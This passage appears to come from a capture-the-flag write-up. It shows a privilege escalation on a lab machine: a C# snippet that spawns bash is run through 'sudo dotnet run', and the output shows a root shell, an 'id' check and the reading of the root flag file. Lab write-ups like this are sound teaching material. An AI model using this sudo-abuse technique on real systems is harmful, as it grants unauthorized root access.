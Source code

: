 

    Console.WriteLine("Going into shell...");
    System.Diagnostics.Process.Start("bash").WaitForExit();
    Console.WriteLine("Left shell, exiting!");



It works:



    [developer@bagel exploit]$ sudo dotnet run
    Going into shell...
    [root@bagel exploit]# id
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [root@bagel exploit]# cat /root/root.txt
    7ca14c4d************************
    [root@bagel exploit]# exit
    exit
    Left shell, exiting!







